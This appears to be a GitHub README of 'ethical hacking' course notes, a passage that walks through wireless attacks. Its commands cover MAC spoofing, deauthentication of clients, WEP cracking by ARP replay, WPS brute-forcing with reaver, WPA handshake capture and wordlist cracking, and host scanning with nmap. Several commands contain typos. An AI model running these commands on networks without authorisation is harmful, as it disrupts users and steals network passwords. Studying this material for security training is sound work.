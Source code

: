 # Ethical Hacking Basics


## What is MAC Address and How to change it

- MAC Address is a physical address specific to a device  
- Check MAC Address using ifconfig command in ether section

***ifconfig*** : This command lists all the interfaces

When in monotor mode Check MAC Address using ifconfig command in unspec section (First 6 between -, replace - with :)

**How to change MAC Address (To change wlan0 MAC Address) :-**

```
Ifconfig wlan0 down
Ifconfig wlan0 hw ether 00:11:22:33:44:55 (New MAC Address)
Ifconfig wlan0 upa
```

MAC Address will revert back to original when machine will restart

<hr>

## Wireless Modes (Managed and Monitor)

- Managed mode will capture only those packet which has our destination MAC Address.
- Monitor Mode can capture any packet within our range.

***iwconfig*** : To check mode

**How to change to Monitor Mode :-**

```
Ifconfig wlan0 down
Airmon-ng check kill
Iwconfig wlan0 mode monitor
Iwconfig wlan0 up
```

<hr>

## Sniffing Basics

**Packet Sniffing Basics**

```Airodump-ng mon0``` (mon0 can be wlan0, or anything)  
Above command will capture all packets within the range.

To sniff 5GHz band also  
```Airodump-ng --band a mon0``` (```--band abg``` (For both 2.4 and 5 GHZ network))

**Targetted Packet Sniffing**

```Airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write test mon0```

<hr>

## Deauthentication Attack (Disconnecting any device from the network)

```Aireplay-ng -deauth 100000000 -a 00:11:22:33:44:55 -c 11:33:55:44:33:33 mon0 -a (network mac address) -c (client mac address)```  

If above command gives some issue run this command also in other terminal.  
```Airodump-ng --bssid 00:11:22:33:44:55 --channel 2 mon0```

<hr>

## Theory behind Cracking WEP Encryption

IV = Initialization Vector is only 24 bit random number  
IV + Key (Password) = Key Stream  
Each packet is encrypted using unique key stream.

IV is attached in pain text with packet, which makes it easy to crack.

<hr>

## WEP Cracking Basics :-

Capture a large number of packets/IVs using airdump-ng  
Analyse the captured IVs and crack the key using aircrack-ng

```
Airodump-ng --bssid 00:11:22:33:44:55 --channel 1 --write basic_wep mon0
Aircrack-ng basic_wep-01.cap (saved file with captured data)
```

We require busy network for capture more and more data (airodump command)  
The above command will return the key and ascii. Just remove colon from the received key. That’s the password for WEP network. 

Example : KEY FOUND! [ 12:12:45:45:12 ] (ASCII: As23p )

Password = 1212454512

<hr>

## WEP Cracking Face Authentication Attack | ARP Request Replay Attack

To overcome the problem for generating many packets even when network is not buys.  
```Airodump-ng --bssid 00:11:22:33:44:55 --channel 6 --write arpreplay mon0```

To associate with a network  we use a program called aireplay-ng  
```Aireplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h 88:88:88:88:88:88 mon0 -h``` require mac address of our wireless adapter

Associte with network 2-3 during the whole progress  
```Aireplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h 88:88:88:88:88:88 mon0```

ARP replay attack command :  
```
Aireplay-ng --arpreplay -b 00:11:22:33:44:55 -h 88:88:88:88:88:88 mon0
Aireplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h 88:88:88:88:88:88 mon0
```

Crack the password :  
```Aircrack-ng arpreplay-01.cap``` (saved file with captured data)


The above command will return the key and ascii. Just remove colon from the received key. That’s the password for WEP network.

<hr>

## Hacking WPA and WPA2 Without a Wordlist

Hacking WPS enabled Network:

List out network which use wps using:  
```wash --interface mon0```

Use program reaver for brute forcing and give us the key:  
```reaver --bssid 00:11:22:33:44:55 --channel 1 --interface mon0 -vvv --no-associate```

Associate manualy with target network after every 30 sec:  
```Aireplay-ng --fakeauth 30 -a 00:11:22:33:44:55 -h 88:88:88:88:88:88 mon0```

The above will crack wps pin as well wpa psk password

<hr>

## Capturing the Handshake

Capture and Save packets in a file  
```Airodump-ng --bssid 00:11:22:33:44:55 --channel 1 --write wpa_handshake mon0```

- Handshake will be done only when a client connects to a network.
- So we can run a deauthentication attack to disconnect a connected client, after we stop the attack
- The client will again connect to the network and we can capture the handshake

```Aireplay-ng -deauth 4 -a 00:11:22:33:44:55 -c 11:33:55:44:33:33 mon0```

<hr>

## Different Tools

**Creating a Wordlist :-**

Use a tool name crunch to create a wordlist  
```
crunch [min] [max] [character] -t [patter] -o [FileName]
crunch 6 8 abc12 -o test.txt
```

If we know password start with a and end with b

```Curch 6 6 abc12 -o test.txt -t a@@@@b```

**Cracking WPA & WPA2 Using a WordList :-**

```Aircrack-ng wpa_handshake-01.cap -w test.txt```

**Discovering Devices Connected to the Same Network :-**  
Using netdiscover

```Netdiscover -r 10.0.2.1/24 (It means 10.0.2.0 - 10.0.2.254 all)```

**Gathering Sensitive Info About Connected Devices (Device Name, Ports....etc) :-**  
Using nmap and zenmap (GUI version of nmap)

Zenmap (it will open zenmap gui)  
Type range as 10.0.2.1/24. It will also show the nmap command. Which we can run on terminal

**Gathering More Sensitive Info (Running Services, Operating System....etc) :-**
